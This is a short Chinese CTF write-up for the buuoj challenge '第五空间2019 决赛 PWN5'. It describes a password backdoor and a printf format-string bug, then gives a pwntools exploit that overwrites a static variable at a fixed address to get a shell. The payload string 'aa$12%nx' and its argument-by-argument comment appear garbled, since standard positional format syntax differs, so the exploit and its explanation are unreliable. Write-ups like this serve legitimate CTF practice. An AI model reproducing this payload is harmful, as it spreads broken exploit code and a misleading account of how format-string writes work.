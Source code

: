 # [第五空间2019 决赛]PWN5

From buuoj.

## 文件分析

下载`pwn`，NX on, PIE on, RELRO partial  
ghidra分析为32位程序

## 逆向

找到main函数后，发现输入username和passwd，并且存在后门：当passwd==randint时，打开sh，其中randint从文件读入为随机数  
由于读入的username和passwd长度等于其数组长度，无法考虑 **栈溢出** ，转而考虑对`atoi()`的利用

> Day 2

由于username在函数`printf`中，因此应当考虑格式化字符串漏洞将指定数值注入`randint`

## EXPLOIT

经过gdb调试可知，变量`username`所在地址比printf第一个参数的地址高0x28，即10个DWORD  
构造以下exp：

```python
from pwn import *
sh = process('pwn5')

# 静态变量randint的地址为0x0804c044
sh.sendline(b'aa$12%nx' + p32(0x0804c044))
# arg10: 'aa$1', arg11: '2%nx', arg12: 0x0804c044
#即将2（成功打印aa 2个字符）写入randint中

sh.sendline(b'2')
sh.interactive()
#输入cat flag取得flag

sh.close()
```
Done.
